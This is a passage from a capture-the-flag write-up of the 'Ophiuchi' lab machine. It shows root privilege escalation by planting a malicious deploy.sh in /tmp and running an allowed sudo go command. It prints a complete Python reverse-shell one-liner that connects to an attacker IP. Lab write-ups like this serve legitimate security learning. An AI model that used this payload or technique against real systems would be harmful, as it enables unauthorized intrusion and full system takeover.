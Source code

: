 Next, we ssh back into the box as `admin`. We'll navigate to the `/tmp` directory and create our own `deploy.sh` to call our reverse shell. Since we know port `8081` worked last time, we'll use that again (make sure the old listener used to catch the foothold is reset). The reverse shell payload will be the following python payload.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

![deploy_sh](/wp-content/uploads/2021/07/ophiuchi/deploy_sh.png)  
**Figure 12:** SSH back in and create a malicious `deploy.sh` to call a reverse shell.

To gain root privileges we'll do what we know we're allowed to do which is `sudo /usr/bin/go run /opt/wasm-functions/index.go`, and as you can see below netcat has caught the root reverse shell.  
![rooted](/wp-content/uploads/2021/07/ophiuchi/rooted.png)  
**Figure 13:** Root achieved via `/tmp` directory containing our own `deploy.sh` and `main.wasm` files.  

# Conclusion  
Knowing very little about Golang, and even less about WebAssembly, made the privilege escalation to root a real bastard for me. It was a great learning experience to decompile and recompile WebAssembly code. The box overall was extremely enjoyable (but I still am not sure how to pronounce the name).

